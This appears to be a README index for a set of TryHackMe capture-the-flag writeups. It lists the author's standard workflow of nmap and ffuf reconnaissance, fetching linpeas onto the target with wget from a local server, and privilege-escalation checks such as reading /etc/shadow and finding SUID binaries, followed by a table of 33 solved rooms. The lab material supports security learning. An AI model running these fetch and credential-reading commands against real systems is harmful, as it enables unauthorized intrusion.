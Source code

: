 - In my CTF challenges writeups, I often skip how to nmap scan, how directory brute forcing, how to get linpeas file, etc
- For that, I always use the same methods.

- First, I use zsh in my ubuntu machine and terminator (which can easily split screens, `Ctrl+Shift+o` for horizontal split and `Ctrl+Shift+e` for vertical split)
- After starting the rooms, I first export IP of the room `export IP=10.10.230.23` in `~/.zshrc` files

1. Nmap Scan

```sh
nmap -sC -sV $IP -oN nmap_init.log -vv
```

- if there are few ports found with default port scanning, I use rustcan to scan all ports (rustscan is fast)

```sh
rustscan -a $IP
```

2. Directory Brute Forcing with FFUF

- I first started with common.txt wordlist (I think it is inside Seclist but I move under usr folder)

```sh
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- If nothing found, use `directory-list-2.3-medium.txt` file

3. For sharing file from local machine to victim (room's) machine, I have already created folder `share/exploit`

- Inside that folder, I collect linpeas.sh, pspy, etc
- from local machine, create python server

```sh
python -m http.server 8888
```

- Then from room's shell,

```sh
wget http://$TUN0_IP:8888/linpeas.sh
```

4. For privilege escalation, I first check

```sh
sudo -l
id                # check groups, docker, sudo, lxd, etc
ls -la /home      # check the users with home directories
cat /etc/passwd   # check the users
cat /etc/shadow   # can i read this
cat /etc/crontab  # if there any cron jobs
sudo --version    # to check sudo bypass
find / -perm -4000 2>/dev/null # for suid bits
```

- if not found, run `linpeas.sh` file

## Challenges

| No  | Title              | Source | Tags                                      | Difficulty | Writeup                                          | Date Finished |
| --- | ------------------ | ------ | ----------------------------------------- | ---------- | ------------------------------------------------ | ------------- |
| 1   | Pickle Rick        | THM    | linux(su),web                             | easy       | [here](./TryHackMe/pickle_rick/readme.md)        | March 2, 2023 |
| 2   | Rootme             | THM    | linux(python),web                         | easy       | [here](./TryHackMe/rootme/readme.md)             | March 2, 2023 |
| 3   | Simple CTF         | THM    | linux(vim),web,crypt                      | easy       | [here](./TryHackMe/simple_ctf/readme.md)         | March 2, 2023 |
| 4   | Vulnversity        | THM    | linux(systemctl),web                      | easy       | [here](./TryHackMe/vulnversity/readme.md)        | March 2, 2023 |
| 5   | Bounty Hacker      | THM    | linux(tar),ftp                            | easy       | [here](./TryHackMe/bountyhacker/readme.md)       | March 2, 2023 |
| 6   | Agent Sudo         | THM    | linux(sudo bypass), web,ftp,crypt,stegano | easy       | [here](./TryHackMe/agentsudo/readme.md)          | March 2, 2023 |
| 7   | Overpass           | THM    | linux(writable hosts),web,crypt           | easy       | [here](./TryHackMe/overpass/readme.md)           | March 2, 2023 |
| 8   | Lazy Admin         | THM    | linux(sudo chain),web                     | easy       | [here](./TryHackMe/lazyadmin/readme.md)          | March 3, 2023 |
| 9   | Skynet             | THM    | linux(tar star files),web,smb             | easy       | [here](./TryHackMe/skynet/readme.md)             | March 3, 2023 |
| 10  | Startup            | THM    | linux(cron),web,ftp                       | easy       | [here](./TryHackMe/startup/readme.md)            | March 3, 2023 |
| 11  | TomGhost           | THM    | linux(zip),web,crypt(gpg)                 | easy       | [here](./TryHackMe/tomghost/readme.md)           | March 4, 2023 |
| 12  | Ignite             | THM    | linux,web                                 | easy       | [here](./TryHackMe/ignite/readme.md)             | March 4, 2023 |
| 13  | Brooklyn99         | THM    | linux(less),web,ftp                       | easy       | [here](./TryHackMe/brooklyn99/readme.md)         | March 4, 2023 |
| 14  | Cyborg             | THM    | linux(cron),web,borg,crypt                | easy       | [here](./TryHackMe/cyborg/readme.md)             | March 4, 2023 |
| 15  | Wgel               | THM    | linux(wget),web,ssh                       | easy       | [here](./TryHackMe/wgel/readme.md)               | March 4, 2023 |
| 16  | LianYu             | THM    | linux(pkexec),web,crypt,stegano           | easy       | [here](./TryHackMe/lian_yu/readme.md)            | March 5, 2023 |
| 17  | Year Of The Rabbit | THM    | linux(sudo bypass), web,crypt,stegano     | easy       | [here](./TryHackMe/year_of_the_rabbit/readme.md) | March 5, 2023 |
| 18  | BruteIt            | THM    | linux(cat),web                            | easy       | [here](./TryHackMe/bruteit/readme.md)            | March 6, 2023 |
| 19  | Chill Hack         | THM    | linux(docker),web,crypt                   | easy       | [here](./TryHackMe/chill_hack/readme.md)         | March 6, 2023 |
| 20  | Cmess              | THM    | linux(cron,tar),web                       | medium     | [here](./TryHackMe/cmess/readme.md)              | March 6, 2023 |
| 21  | Gaming Server      | THM    | linux(lxd),web,ssh                        | easy       | [here](./TryHackMe/gaming_server/readme.md)      | March 7, 2023 |
| 22  | Chocolate Factory  | THM    | linux(vi),web,ssh,stegano,crypt           | easy       | [here](./TryHackMe/chocolate_factory/readme.md)  | March 7, 2023 |
| 23  | Easy Peasy         | THM    | linux(cron),web,stegano,crypt             | easy       | [here](./TryHackMe/easy_peasy/readme.md)         | March 7, 2023 |
| 24  | GitHappens         | THM    | git                                       | easy       | [here](./TryHackMe/githappens/readme.md)         | March 7, 2023 |
| 25  | ArchAngel          | THM    | linux(cp),web(log poison)                 | easy       | [here](./TryHackMe/archangel/readme.md)          | March 7, 2023 |
| 26  | Fowsniff CTF       | THM    | linux(00-header),pop3,ssh                 | easy       | [here](./TryHackMe/Fowsniff/readme.md)           | March 8, 2023 |
| 27  | Agent T            | THM    | web(User-Agentt, php 8.1.0-dev)           | easy       | [here](./TryHackMe/agentT/readme.md)             | March 8, 2023 |
| 28  | Mustacchio         | THM    | linux(suid),web(xxe),ssh                  | easy       | [here](./TryHackMe/mustacchio/readme.md)         | March 8, 2023 |
| 29  | Corridor           | THM    | web(idor), crypt                          | easy       | [here](./TryHackMe/corridor/readme.md)           | March 8, 2023 |
| 30  | Team               | THM    | linux,web(lfi)                            | easy       | [here](./TryHackMe/team/readme.md)               | March 9, 2023 |
| 31  | Ultra Tech         | THM    | linux(docker),web(cmd inj)                | medium     | [here](./TryHackMe/ultra_tech/readme.md)         | March 9, 2023 |
| 32 | Anonymous | THM | linux(env,lxd),ftp,samba | medium | [here](./TryHackMe/anonymous/readme.md) | March 10, 2023 |
| 33 | Convert My Video | THM | linux,web(cmd inj) | medium | [here](./TryHackMe/convert_my_video/readme.md) | March 10, 2023 |
